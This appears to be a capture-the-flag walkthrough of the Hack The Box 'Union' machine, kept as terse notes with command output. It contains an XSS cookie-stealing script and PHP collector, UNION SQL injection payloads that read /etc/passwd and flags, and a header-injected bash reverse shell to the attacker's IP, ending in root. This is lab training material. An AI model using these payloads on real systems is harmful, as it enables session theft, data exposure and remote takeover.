

# Union

└──╼ [★]$ sudo nmap -sCV 10.129.96.75
Starting Nmap 7.95 ( [https://nmap.org](https://nmap.org/) ) at 2026-06-18 03:14 EDT
Nmap scan report for 10.129.96.75
Host is up (0.014s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|*http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-cookie-flags:
|   /:
|     PHPSESSID:
|*      httponly flag not set
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel




whatweb [http://10.129.96.75http://10.129.96.75](http://10.129.96.75/) [200 OK] Bootstrap[4.1.1], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.129.96.75], JQuery[3.2.1], Script, nginx[1.18.0]

gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u [http://10.129.15.213/](http://10.129.15.213/) -t 100 -x php --exclude-length 0

/index.php            (Status: 200) [Size: 1220]
/css                  (Status: 301) [Size: 178] [--> [http://10.129.15.213/css/](http://10.129.15.213/css/)]
/firewall.php         (Status: 200) [Size: 13]
/challenge.php        (Status: 200) [Size: 772]

sqlmap -r req --batch --level=5 --risk=3
…
[03:18:30] [INFO] heuristic (XSS) test shows that (custom) POST parameter '#1*' might be vulnerable to cross-site scripting (XSS) attacks

python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 ([http://0.0.0.0:8000/](http://0.0.0.0:8000/)) ...
10.10.15.206 - - [18/Jun/2026 03:47:46] code 404, message File not found
10.10.15.206 - - [18/Jun/2026 03:47:46] "GET /script.js HTTP/1.1" 404 -
^C
Keyboard interrupt received, exiting.

<script src="[http://10.10.15.206:8000/script.js](http://10.10.15.206:8000/script.js)"></script>

XSS confirmed 

└──╼ [★]$ cat index.php
<?php
if (isset($_GET['c'])) {
$list = explode(";", $_GET['c']);
foreach ($list as $key => $value) {
$cookie = urldecode($value);
$file = fopen("cookies.txt", "a+");
fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
fclose($file);
}
}
?>
┌─[us-dedivip-4]─[10.10.15.206]─[ronking37@htb-x6ii6ja0me]─[~/tmpserver]
└──╼ [★]$ cat script.js
document.location='[http://10.10.15.206:8000/index.php?c='+document.cookie](http://10.10.15.206:8000/index.php?c=%27+document.cookie);

└──╼ [★]$ sudo php -S 0.0.0.0:8000
[Thu Jun 18 03:58:27 2026] PHP 8.4.16 Development Server ([http://0.0.0.0:8000](http://0.0.0.0:8000/)) started
[Thu Jun 18 03:58:29 2026] 10.10.15.206:35426 Accepted
[Thu Jun 18 03:58:29 2026] 10.10.15.206:35426 [200]: GET /script.js
[Thu Jun 18 03:58:29 2026] 10.10.15.206:35426 Closing
[Thu Jun 18 03:58:30 2026] 10.10.15.206:35440 Accepted
[Thu Jun 18 03:58:30 2026] 10.10.15.206:35440 [200]: GET /script.js
[Thu Jun 18 03:58:30 2026] 10.10.15.206:35440 Closing
[Thu Jun 18 03:58:30 2026] 10.10.15.206:35446 Accepted
[Thu Jun 18 03:58:30 2026] 10.10.15.206:35446 [200]: GET /index.php?c=PHPSESSID=tql71saif6gqd1pj0d315mcsii
[Thu Jun 18 03:58:30 2026] 10.10.15.206:35446 Closing
[Thu Jun 18 03:58:30 2026] 10.10.15.206:35458 Accepted
[Thu Jun 18 03:58:30 2026] 10.10.15.206:35458 [200]: GET /favicon.ico
[Thu Jun 18 03:58:30 2026] 10.10.15.206:35458 Closing

PHPSESSID=tql71saif6gqd1pj0d315mcsii

got cookie


cn' UNION select @@version-- -


union injection confirmed

cn' UNION select SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;-- -

Sorry, mysql you are not eligible due to already qualifying.

TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES-- -

ab'UNION SELECT group_concat(schema_name) FROM information_schema.schemata-- -

Sorry, mysql,information_schema,performance_schema,sys,november you are not eligible due to already qualifying.

ab'UNION SELECT group_concat(schema_name) FROM information_schema.schemata-- -

Sorry, flag,players you are not eligible due to already qualifying.

0' UNION SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema='november' AND table_name='flag'-- -

Sorry, one you are not eligible due to already qualifying.

0' UNION SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema='november' AND table_name='players'-- -

Sorry, player you are not eligible due to already qualifying.

0' UNION SELECT concat(one) FROM november.flag LIMIT 0,1-- -

Sorry, UHC{F1rst_5tep_2_Qualify} you are not eligible due to already qualifying.

0' UNION SELECT concat(player) FROM november.players LIMIT 0,1-- -

Sorry, ippsec you are not eligible due to already qualifying.

entered the flag 


0' UNION SELECT LOAD_FILE('/home/uhc/user.txt')-- -

76abebb3086c398eb7d3b90ec0f43b10

0' UNION SELECT LOAD_FILE('/etc/passwd')-- -

root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin messagebus:x:103:106::/nonexistent:/usr/sbin/nologin syslog:x:104:110::/home/syslog:/usr/sbin/nologin _apt:x:105:65534::/nonexistent:/usr/sbin/nologin tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin pollinate:x:110:1::/var/cache/pollinate:/bin/false usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin sshd:x:112:65534::/run/sshd:/usr/sbin/nologin systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin htb:x:1000:1000:htb:/home/htb:/bin/bash lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false mysql:x:109:117:MySQL Server,,,:/nonexistent:/bin/false uhc:x:1001:1001:,,,:/home/uhc:/bin/bash

0' UNION SELECT LOAD_FILE('/etc/nginx/sites-available/default')-- -

server { listen 80 default_server; listen [::]:80 default_server; root /var/www/html; index index.php server_name _; location / { try_files $uri $uri/ =404; } location ~ \.php$ { include snippets/fastcgi-php.conf; fastcgi_pass unix:/var/run/php/php7.4-fpm.sock; } location ~ /\.ht { deny all; } }


uhc:uhc-11qual-global-pw

ssh [uhc@10.129.96.75](mailto:uhc@10.129.96.75)

uhc@union:~$ ls
user.txt
uhc@union:~$ cat user.txt
8aa615d634570436f1040e3ee7ce98a8

curl -X GET "[http://10.129.96.75/firewall.php](http://10.129.96.75/firewall.php)"   -H "Cookie: PHPSESSID=jom1430nevlrtp90195lbposl5"   -H "X-Forwarded-For: 127.0.0.1&& bash -c 'bash -i >& /dev/tcp/10.10.15.206/4444 0>&1' #"

cat firewall.php
<?php
require('config.php');

if (!($_SESSION['Authenticated'])) {
echo "Access Denied";
exit;
}

?>
<link href="[//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/css/bootstrap.min.css](https://maxcdn.bootstrapcdn.com/bootstrap/4.1.1/css/bootstrap.min.css)" rel="stylesheet" id="bootstrap-css">
<script src="[//maxcdn.bootstrapcdn.com/bootstrap/4.1.1/js/bootstrap.min.js](https://maxcdn.bootstrapcdn.com/bootstrap/4.1.1/js/bootstrap.min.js)"></script>
<script src="[//cdnjs.cloudflare.com/ajax/libs/jquery/3.2.1/jquery.min.js](https://cdnjs.cloudflare.com/ajax/libs/jquery/3.2.1/jquery.min.js)"></script>
<!------ Include the above in your HEAD tag ---------->

<div class="container">
<h1 class="text-center m-5">Join the UHC - November Qualifiers</h1>

```
</div>
<section class="bg-dark text-center p-5 mt-4">
	<div class="container p-5">
```

<?php
if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
$ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
} else {
$ip = $_SERVER['REMOTE_ADDR'];
};
system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
?>
<h1 class="text-white">Welcome Back!</h1>
<h3 class="text-white">Your IP Address has now been granted SSH Access.</h3>
</div>
</section>
</div>

command injection into X-Forwarded-For header

nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.96.75 40552
bash: cannot set terminal process group (872): Inappropriate ioctl for device
bash: no job control in this shell
www-data@union:~/html$ sudo -l
sudo -l
Matching Defaults entries for www-data on union:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on union:
(ALL : ALL) NOPASSWD: ALL
www-data@union:~/html$ sudo su
sudo su
id
uid=0(root) gid=0(root) groups=0(root)

curl -X GET "[http://10.129.96.75/firewall.php](http://10.129.96.75/firewall.php)"   -H "Cookie: PHPSESSID=jom1430nevlrtp90195lbposl5"   -H "X-Forwarded-For: 127.0.0.1&& bash -c 'bash -i >& /dev/tcp/10.10.15.206/4444 0>&1' #"